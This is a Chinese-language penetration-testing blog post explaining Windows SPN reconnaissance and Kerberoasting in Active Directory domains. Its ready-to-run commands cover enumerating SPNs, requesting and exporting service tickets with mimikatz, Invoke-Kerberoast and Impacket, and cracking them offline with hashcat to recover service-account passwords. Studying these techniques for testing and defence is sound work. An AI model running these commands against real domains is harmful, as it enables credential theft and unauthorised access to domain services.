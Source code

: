 ```yaml
---
title: "Windows SPN 攻击"
date: 2019-07-19T00:00:00+08:00
draft: false
tags: ["windows",'spn']
categories: ["内网渗透"]
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


SPN 全称 Service Principal Name, 即服务主体名称. 将服务实例和服务账户与 Kerberos 协议相关联. 简单来说, SPN 使得域内的服务(例如 MSSQL Exchange FTP CIFS)在进行身份认证时都能采用 Kerberos 协议.

<!--more-->

## 信息收集

因为通常一部分服务会在域中注册 SPN, 而域中的所有用户都有权限查看 SPN 信息, 所以我们就可以利用 SPN 来达到无须端口探测以进行信息收集的目的.

常用 SPN 对应的服务 [ADSecurity](https://adsecurity.org/?page_id=183).

几种查询 SPN 信息的方式.

### setspn

```
setspn -Q */* // 查看所有 SPN
setspn -Q */DC // 查看 DC 主机的 SPN
```

### Powershell-AD-Recon

MSSQL.

```
Import-Module .\Discover-PSMSSQLServers.ps1
Discover-PSMSSQLServers
```
Exchange.

```
Import-Module .\Discover-PSMSExchangeServers.ps1
Discover-PSMSExchangeServers
```

HTTP FTP TERMSRV DNS... 

```
Import-Module .\Discover-PSInterestingServices.ps1
Discover-PSInterestingServices
```

按账户查看 SPN.

```
Import-Module .\Find-PSServiceAccounts.ps1
Find-PSServiceAccounts
```

### Kerberoast

```
cscript GetUserSPNs.vbs
```

`GetUserSPNs.ps1` 本地测试失败.


## 凭据爆破

当 Kerberos 凭据为 RC4\_HMAC\_MD5 加密时, 可通过 Kerberoast 或 Hashcat 进行凭据爆破.

域内机器为 2003 及以下时, 默认采用 RC4\_HMAC\_MD5 方式加密 Kerberos 凭据, 2008 R2 及以上系统需在组策略中手动更改(默认为 AES 加密).

先导出从 KDC 申请的 TGS Ticket. 然后再进行爆破. 这里有三种方法.

### mimikatz

```
kerberos::purge
kerberos::ask /target:MSSQLSvc/DC.test.com:1433
kerberos::list /export
```

### Invoke-Kerberoast

作者原本的 ps 脚本有错误. 要使用 Empire 中的版本.

```
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast.ps1 -OutputFormat hashcat | fl
```

### Impacket

可以在非域主机上导出 Hashcat 格式的密文. 需要域内用户的凭据.

```
GetUserSPNs.py -request -dc-ip 192.168.1.100 test.com/user
Password: ******* // Input password for user
```

导出后可通过 Kerberoast 自带的工具或 JohnTheRipper, Hashcat 爆破.

### Kerberoast

```
tgsrepcrack.py passwords.txt mssql.kirbi
```

### Hashcat

```
hashcat -m 13100 hash.txt passwords.txt
```

### 后续利用

Kerberoast 中的 `kerberoast.py` 可通过爆破得出的密码解密 Ticket, 不过在实际测试中一直失败(具体可看 [kerberoast issue](https://github.com/nidem/kerberoast/issues/11)).

个人认为可通过明文密码加上服务账户的用户名直接登录到对应的服务器(如 MSSQL Exchange FTP WEB CIFS), 也能使用 mimikatz 申请对应的 TGS Ticket 来访问服务, 不过暂未做具体测试.
